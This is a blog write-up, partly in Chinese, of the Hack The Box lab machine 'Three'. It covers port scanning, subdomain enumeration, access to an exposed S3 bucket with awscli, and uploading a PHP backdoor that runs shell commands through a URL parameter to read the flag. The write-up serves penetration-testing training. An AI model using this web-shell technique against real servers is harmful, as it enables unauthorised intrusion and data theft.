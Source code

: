 ```yaml
---
layout: ../../layouts/BlogPost.astro
title: "[Hack The Box] [Starting Point] [Tier 1] Three"
uuid: c18c3302-3314-11ed-a39a-327ebed86db8
version: 288
created: Tue, 13 Sep 2022 03:32:54 +0000
tags:
- y-type/resource
- z-class/career/pentest
- x-status/publish/writeup
---
```


**TASK 1**

**How many TCP ports are open?** 2

```
$ nmap -sC -sT -sV $ip
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-13 06:53 BST
Nmap scan report for 10.129.218.174
Host is up (0.24s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Toppers
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.12 seconds
```

**TASK 2**

**What is the domain of the email address provided in the "Contact" section of the website?** thetoppers.htb

**TASK 3**

**In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?** /etc/hosts

**TASK 4**

**Which sub-domain is discovered during further enumeration?** s3.thetoppers.htb

将thetoppers.htb映射ip，写入到hosts文件中

开始爆破子域名

`ffuf -u http://PARAM.thetoppers.htb -w /usr/share/seclists/Discovery/DNS/subdomains-topmillion-200000.txt:PARAM`

试了多个字典，都扫不出来

使用gobuster dns模式也扫不出来

使用gobuster vhost命令, 可以扫出来2个

返回码404和400，，所以没扫出来

![](/images/c18c3302-3314-11ed-a39a-327ebed86db8/6d5f001f-d98e-4fb5-bded-d3fe43052db5.png)

**TASK 5**

**Which service is running on the discovered sub-domain?** Amazon S3

**TASK 6**

**Which command line utility can be used to interact with the service running on the discovered sub-domain?** awscli

**TASK 7**

**Which command is used to set up the AWS CLI installation?** aws configure

**TASK 8**

**What is the command used by the above utility to list all of the S3 buckets?** aws s3 ls

**TASK 9**

**This server is configured to run files written in what web scripting language?** PHP

**SUBMIT FLAG** 

将s3.thetoppers.htb也添加到hosts文件中

`10.129.230.68 thetoppers.htb s3.thetoppers.htb`

根据[aws文档](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html)，安装awscli

然后需要配置aws，随便输：`aws configure`

根据[aws文档](https://docs.aws.amazon.com/cli/latest/userguide/cli-services-s3-commands.html#using-s3-commands-listing-buckets)可得以下命令: `aws s3 ls s3://thetoppers.htb`

但报错了：

![](/images/c18c3302-3314-11ed-a39a-327ebed86db8/ca9b0d9d-fda3-4850-9719-8f487d6aa3c1.png)

通过错误信息可知，需要修改endpoint URL，根据[文档](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/s3/ls.html)可知参数为--endpoint-url

![](/images/c18c3302-3314-11ed-a39a-327ebed86db8/7161e1d1-c1a9-4b41-841c-74ebae27b251.png)

那么接下来就是上传后门文件shell.php 

![](/images/c18c3302-3314-11ed-a39a-327ebed86db8/77d27b99-531c-4b52-a8a9-c6a35433c880.png)

然后通过[url在线编码器](https://www.w3cschool.cn/tools/index?name=urlencode_decode)，编码命令就能得到flag了

http://thetoppers.htb/shell.php?cmd=cat%20../flag.txt

**Note:**

ref: 

字典(dict) [danielmiessler/SecLists](https://github.com/danielmiessler/SecLists) 

[Configuration basics - AWS Command Line Interface (amazon.com)](https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-quickstart.html) 

[https://erev0s.com/blog/gobuster-directory-dns-and-virtual-hosts-bruteforcing/](https://erev0s.com/blog/gobuster-directory-dns-and-virtual-hosts-bruteforcing/)  [Note](https://www.amplenote.com/notes/876fd216-33df-11ed-a709-5ac3aea65f93) 

[Three.pdf](/attachments/Three.pdf)